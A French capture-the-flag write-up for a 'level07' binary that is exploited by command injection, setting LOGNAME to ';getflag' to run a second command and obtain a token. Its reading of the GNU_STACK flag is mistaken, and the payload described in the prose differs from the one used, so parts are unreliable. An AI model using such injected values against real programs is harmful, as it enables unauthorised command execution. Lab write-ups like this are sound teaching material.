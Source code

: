 # Level07

Commençons par vérifier si nous pouvons examiner le programme level07 en utilisant readelf :
```bash
readelf -l level07
```

Nous cherchons une section intéressante dans la sortie de la commande, qui devrait ressembler à ceci :
```bash
GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4
```

La partie importante est "RW," qui signifie que cette section est à la fois en lecture (R) et en écriture (W). Cela nous donne un indice que le programme pourrait être vulnérable à une attaque.

Maintenant, utilisons le débogueur GDB pour inspecter le programme

utilisation de gdb
```bash
gdb ./level07
layout next
b main
run 
next
```

Nous mettons un point d'arrêt sur la fonction main pour examiner plus en détail le programme. En utilisant next, nous pouvons avancer dans le programme étape par étape.

Ensuite, nous utilisons la commande strings pour inspecter les chaînes présentes dans le programme level07. Nous recherchons une chaîne intéressante, et nous trouvons "LOGNAME."
```bash
strings level07
```

Maintenant, nous pouvons exploiter le programme en modifiant la variable d'environnement LOGNAME. Nous la définissons sur "${getflag}" pour exécuter la commande getflag :

```bash
export LOGNAME=';getflag'
./level07
```

Le programme level07 s'exécute avec la variable d'environnement modifiée et renvoie le jeton du niveau suivant :
```bash
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
Ainsi, nous avons réussi à obtenir le jeton en exploitant une vulnérabilité dans le programme qui nous permet de modifier la variable d'environnement LOGNAME.

